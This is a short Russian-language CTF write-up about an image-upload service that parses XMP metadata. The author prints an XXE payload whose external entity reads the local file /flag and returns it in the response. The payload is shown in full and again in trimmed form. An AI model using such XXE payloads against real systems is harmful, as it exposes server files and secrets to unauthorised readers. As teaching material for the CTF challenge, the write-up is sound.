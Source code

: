 Нас встречает сервер, на который можно загрузить картинки. Давайте попробуем. Получаем на выходе xmp metadata из картинки. Погуглив, выясняем, что xmp метадата = xml. Впадлу же засовывать xmp в картинку, это долго и неудобно, давайте поробуем загрузить туда какой нибудь xml. В ответ получаем содержимое xml документа. Если он парсит xml и печатает его содержимое, то можно засунуть туда малварный пейлоад и получить чувствительные данные. Давайте поищем в инете и составим свой пейлоад:

```xml
 <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///flag" >]>
<x:xmpmeta xmlns:x="adobe:ns:meta/" x:xmptk="Image::ExifTool 10.96">
<rdf:RDF xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#">
<foo>&xxe;</foo>
 <rdf:Description xmlns:pdf="http://ns.adobe.com/pdf/1.3/" rdf:about="">
  <pdf:Keywords>123</pdf:Keywords>
 </rdf:Description>
</rdf:RDF>
</x:xmpmeta>
```

На самом деле тут "полезная нагрузка" - это вот эта часть
```xml
 <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///flag" >]>
<x:xmpmeta xmlns:x="adobe:ns:meta/" x:xmptk="Image::ExifTool 10.96">
<rdf:RDF xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#">
<foo>&xxe;</foo>
```
Тут мы делаем xml сущность, которая читает из файла /flag содержимое и вставляет его в документ.

В результате нам вернется флаг